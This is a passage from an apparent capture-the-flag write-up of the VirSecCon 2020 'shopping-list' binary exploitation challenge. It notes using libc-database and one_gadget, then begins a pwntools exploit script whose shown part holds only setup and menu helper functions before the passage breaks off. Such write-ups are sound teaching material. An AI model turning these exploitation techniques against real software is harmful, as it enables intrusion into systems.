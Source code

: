 ![aa](/images/virseccon2020/2020-04-05-100455_269x181_scrot.png)

![aa](/images/virseccon2020/2020-04-05-100546_669x71_scrot.png)

the last step we need to determine the libc version , to do that i use `libc-database`
get the libc elf and use `one_gadget` to solve it quickly

![aa](/images/virseccon2020/2020-04-05-101000_479x225_scrot.png)

and this is my exploit to solve this challenge

{% highlight python %}
#!/usr/bin/env python2
from fmtstr64 import *
'''
    author : tripoloski
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
    generated by skeloski GEF
'''
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="info",)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/virseccon2020/pwn/shopping-list/challenge")
elf = ELF(TARGET)

# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def add(i):
    r.sendlineafter(">","1")
    r.sendlineafter("?",str(i))

def listt(idx , p):